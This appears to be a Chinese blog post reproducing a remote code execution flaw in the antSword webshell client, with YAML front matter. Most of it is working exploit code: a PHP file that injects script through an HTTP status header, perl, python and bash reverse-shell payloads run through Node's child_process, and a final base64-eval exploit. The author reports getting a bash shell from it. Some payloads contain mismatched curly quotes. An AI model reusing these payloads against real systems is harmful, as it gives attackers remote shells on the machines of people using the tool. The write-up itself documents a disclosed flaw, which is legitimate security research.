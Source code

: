 ```yaml
---
title: RCE Vulnerability in antSword
tags:
  - X(R)S(C)S(E)
categories:
  - 漏洞复现
copyright: true
abbrlink: 4e91690d
date: 2019-04-14 12:42:55
---
```


![](https://ae01.alicdn.com/kf/HTB18FOoaBGw3KVjSZFwq6zQ2FXa1.jpg)
<!--more-->

前几天蚁剑暴X(R)S(C)S(E)，所以复现看看

```php
<?php
header('HTTP/1.1 500 <img src=# onerror=alert(/AntSword-XSS/)>');
?>
```

![](https://ae01.alicdn.com/kf/HTB15QSiaA9E3KVjSZFG76319XXaR.png)

**弹shell**

写入自己喜欢的弹shell方式到，`exec()`内，然后进行base64加密

perl:

```
require('child_process').exec('perl -e 'use Socket;$i="127.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'',(error, stdout, stderr)=>{
    alert(`stdout: ${stdout}`);
  });
```

python:

```bash
require('child_process').exec('python -c \’import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash”,”-i”]);\’’,(error, stdout, stderr)=>{
    alert(`stdout: ${stdout}`);
  });
```

bash:

```bash
require('child_process').exec('bash -i >& /dev/tcp/127.0.0.1/4444 0>&1’,(error, stdout, stderr)=>{
    alert(`stdout: ${stdout}`);
  });
```


**最终的exp**

```php
<?php
header("HTTP/1.1 406 Not <img src=# onerror='eval(new Buffer(`base64编码内容`,`base64`).toString())'>");
?>
```

nc监听4444，蚁剑添加webshell，双击打开后，成功弹回bash

![0x02.png](https://ae01.alicdn.com/kf/HTB1VN9jaBOD3KVjSZFF763n9pXaL.png)

**PS：**

这里有个坑，就是，用py、bash、nc之类的弹不回shell，用perl就行。不知道怎么回事。后面再研究院研究